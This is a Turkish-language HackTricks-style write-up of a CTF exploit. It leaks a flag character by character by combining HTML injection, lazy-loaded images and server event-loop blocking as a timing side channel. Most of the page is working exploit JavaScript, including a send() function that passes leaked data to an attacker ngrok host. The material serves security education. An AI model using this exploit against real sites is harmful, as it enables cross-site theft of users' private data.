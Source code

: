 # Event Loop Blocking + Lazy images

{{#include ../../banners/hacktricks-training.md}}

In [**bu istismar**](https://gist.github.com/aszx87410/155f8110e667bae3d10a36862870ba45), [**@aszx87410**](https://twitter.com/aszx87410) **lazy image yan kanal** tekniğini bir HTML enjeksiyonu ile birleştirerek **event loop blocking tekniği** kullanarak karakterleri sızdırıyor.

Bu, aşağıdaki sayfada daha önce yorumlanan **CTF zorluğu için farklı bir istismar**. Zorluk hakkında daha fazla bilgi için göz atın:

{{#ref}}
connection-pool-example.md
{{#endref}}

Bu istismarın arkasındaki fikir şudur:

- Gönderiler alfabetik olarak yüklenir
- Bir **saldırgan**, **"A"** ile başlayan bir **gönderi** **enjekte** edebilir, ardından büyük bir **`<canvas`** gibi bazı **HTML etiketleri** ekranın çoğunu dolduracak ve bazı son **`<img lazy` etiketleri** yüklemek için kullanılacaktır.
- Eğer bir "A" yerine **saldırgan aynı gönderiyi "z" ile başlatarak enjekte ederse.** **Bayrak** ile olan **gönderi** **ilk** olarak görünecek, ardından **enjekte edilen** **gönderi** başlangıçta "z" ile ve **büyük** **canvas** ile görünecektir. Bayrak ile olan gönderi ilk göründüğü için, ilk canvas tüm ekranı kaplayacak ve son **`<img lazy`** etiketleri **ekranda görünmeyecek**, bu nedenle **yüklenmeyecek**.
- Ardından, **bot** sayfaya **erişirken**, **saldırgan** **fetch istekleri** gönderecektir.&#x20;
- Eğer gönderideki **görüntüler** **yükleniyorsa**, bu **fetch** istekleri **daha uzun** sürecektir, bu nedenle saldırgan **gönderinin bayraktan önce olduğunu** bilir (alfabetik olarak).
- Eğer **fetch** istekleri **hızlıysa**, bu, **gönderinin** bayraktan **alfabetik olarak** **sonra** olduğu anlamına gelir.

Hadi kodu kontrol edelim:
```html
<!DOCTYPE html>
<html>
<!--
The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs event loop.
If images are loading, the request to "/" is slower, otherwise faster.
By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
We can use fetch to measure the request time.
-->
<body>
<button onclick="run()">start</button>

<!-- Inject post with payload -->
<form
id="f"
action="http://localhost:1234/create"
method="POST"
target="_blank">
<input id="inp" name="text" value="" />
</form>

<!-- Remove index -->
<form
id="f2"
action="http://localhost:1234/remove"
method="POST"
target="_blank">
<input id="inp2" name="index" value="" />
</form>

<script>
let flag = "SEKAI{"
const TARGET = "https://safelist.ctf.sekai.team"
f.action = TARGET + "/create"
f2.action = TARGET + "/remove"

const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
// Function to leak info to attacker
const send = (data) => fetch("http://server.ngrok.io?d=" + data)
const charset = "abcdefghijklmnopqrstuvwxyz".split("")

// start exploit
let count = 0
setTimeout(async () => {
let L = 0
let R = charset.length - 1

// I have omited code here as apparently it wasn't necesary

// fallback to linerar since I am not familiar with binary search lol
for (let i = R; i >= L; i--) {
let c = charset[i]
send("try_" + flag + c)
const found = await testChar(flag + c)
if (found) {
send("found: " + flag + c)
flag += c
break
}
}
}, 0)

async function testChar(str) {
return new Promise((resolve) => {
/*
For 3350, you need to test it on your local to get this number.
The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
If starts with "A", the image should be loaded because it's in the threshold.
*/
// <canvas height="3350px"> is experimental and allow to show the injected
// images when the post injected is the first one but to hide them when
// the injected post is after the post with the flag
inp.value =
str +
'<br><canvas height="3350px"></canvas><br>' +
Array.from({ length: 20 })
.map((_, i) => `<img loading=lazy src=/?${i}>`)
.join("")
f.submit()

setTimeout(() => {
run(str, resolve)
}, 500)
})
}

async function run(str, resolve) {
// Open posts page 5 times
for (let i = 1; i <= 5; i++) {
window.open(TARGET)
}

let t = 0
const round = 30 //Lets time 30 requests
setTimeout(async () => {
// Send 30 requests and time each
for (let i = 0; i < round; i++) {
let s = performance.now()
await fetch(TARGET + "/?test", {
mode: "no-cors",
}).catch((err) => 1)
let end = performance.now()
t += end - s
console.log(end - s)
}
const avg = t / round
// Send info about how much time it took
send(str + "," + t + "," + "avg:" + avg)

/*
I get this threshold(1000ms) by trying multiple times on remote admin bot
for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
*/
const isFound = t >= 1000
if (isFound) {
inp2.value = "0"
} else {
inp2.value = "1"
}

// remember to delete the post to not break our leak oracle
f2.submit()
setTimeout(() => {
resolve(isFound)
}, 200)
}, 200)
}
</script>
</body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}

